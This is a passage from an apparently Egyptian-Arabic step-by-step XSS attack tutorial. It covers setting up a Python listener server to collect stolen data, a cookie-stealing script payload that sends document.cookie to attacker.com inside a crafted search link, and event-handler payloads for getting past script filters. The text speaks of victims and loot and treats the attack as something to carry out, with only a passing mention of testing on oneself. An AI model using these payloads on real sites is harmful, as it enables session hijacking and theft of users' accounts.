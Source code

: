 
#### **الخطوة 3: إعداد سيرفر لاستقبال البيانات**
عشان تستغل الثغرة (زي سرقة الكوكيز أو تسجيل بيانات)، لازم يكون عندك سيرفر جاهز. هنا طريقة عملية:

1. **إعداد سيرفر بسيط بـ Python:**
   - اكتب سكربت Python:
     ```python
     from http.server import HTTPServer, BaseHTTPRequestHandler

     class SimpleHTTPRequestHandler(BaseHTTPRequestHandler):
         def do_GET(self):
             self.send_response(200)
             self.end_headers()
             print(f"Received: {self.path}")
             self.wfile.write(b"Data received!")

     httpd = HTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
     httpd.serve_forever()
     ```
   - شغّل السكربت:
     ```
     python3 server.py
     ```
   - السيرفر هيسجّل أي بيانات بتيجي (زي الكوكيز).

2. **استخدام Payload لإرسال البيانات:**
   - Payload:
     ```html
     <script>new Image().src='attacker.com/log?cookie='+document.cookie;</script>
     ```
   - الرابط:
     ```
     example.com/search?query=<script>new Image().src='attacker.com/log?cookie='+document.cookie;</script>
     ```

3. **اختبار الرابط:**
   - ابعت الرابط لنفسك أو لـ Test Environment.
   - لو الضحية فتحت الرابط، هتشوف الكوكيز أو البيانات في السيرفر بتاعك.

---

**خلاصة بالعامية:**
السيرفر ده زي المحفظة اللي بتحط فيها الغنيمة. لما الضحية تفتح الرابط، السكربت هيبعتلك البيانات (زي الكوكيز) على السيرفر، وانت كده مسكت المفتاح.

---

#### **الخطوة 4: التعامل مع القيود**
المواقع أحيانًا بتحط قيود عشان تمنع XSS. إزاي تتخطاها؟
1. **فلاتر `<script>`**:
   - استخدم أحداث HTML زي:
     ```html
     <img src=x onerror=alert('XSS')>
     ```
   - أو:
     ```html
     <input onfocus=alert('XSS') autofocus>
     ```
